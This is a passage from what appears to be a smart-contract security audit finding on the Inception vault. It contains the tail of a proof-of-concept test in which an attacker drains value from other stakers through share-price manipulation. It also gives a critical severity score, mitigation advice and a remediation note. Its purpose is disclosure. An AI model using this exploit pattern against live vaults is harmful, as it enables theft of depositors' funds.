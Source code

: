 ```
          await iVault.connect(staker3).deposit(deposited2, staker3.address);
        }
        console.log(`Ratio      3        : ${await iVault.ratio()}`);
        console.log(`total Assets 3      : ${await iVault.totalAssets()}`);
        console.log(`Staker 1 Shares     : ${await iToken.balanceOf(staker)}`);
        console.log(`Staker 2 Deposit    : ${deposited2 * upTo / e18} eth`);
        console.log(`Staker 2 Shares     : ${await iToken.balanceOf(staker2)}`);
        console.log(`Staker 3 Deposit    : ${deposited2 * upTo / e18} eth`);
        console.log(`Staker 3 Shares     : ${await iToken.balanceOf(staker3)}`);
        
        console.log("--- Attacker Withdraw ---");
        const tx3 = await iVault.connect(staker).withdraw(99n, staker.address);
        const receipt3 = await tx3.wait();
        const events3 = receipt3.logs?.filter((e) => e.eventName === "Withdraw");
        let amount = events3[0].args["amount"] ;
        console.log(`Amount redeemed to attacker : ${amount/e18}`);
      });

```

  

Result :

![resultVault.png](https://halbornmainframe.com/proxy/audits/images/662bd237ef90df57b51391e2)

##### BVSS

[AO:A/AC:L/AX:L/C:N/I:N/A:N/D:C/Y:N/R:N/S:C (10.0)](/bvss?q=AO:A/AC:L/AX:L/C:N/I:N/A:N/D:C/Y:N/R:N/S:C)

##### Recommendation

To mitigate this vulnerability, it is advised to:

* **Pre-Mint Shares**: Establish the vault with an initial deposit of shares that reflect a non-trivial amount of the underlying asset, preventing share price manipulation from being economically feasible.
* **Guard Against Zero Share Minting**: Implement safeguards within the deposit logic to reject any deposit transaction that would result in zero shares being minted. This could involve verifying the expected number of shares before completing the deposit transaction.

Remediation Plan
----------------

**SOLVED :** The **Tagus Labs team** implemented a check to ensure depositors get some shares when depositing LST tokens + all vaults are already deployed and already have a TVL in mainnet.

##### Remediation Hash

<https://github.com/inceptionlrt/smart-contracts/commit/0b33cca999f2ed1e29125b61376386507da4404c>

##### References

[inceptionlrt/smart-contracts/contracts/Inception/vaults/InceptionVault.sol#L329](https://github.com/inceptionlrt/smart-contracts/blob/inception-v2/contracts/Inception/vaults/InceptionVault.sol#L329)

---
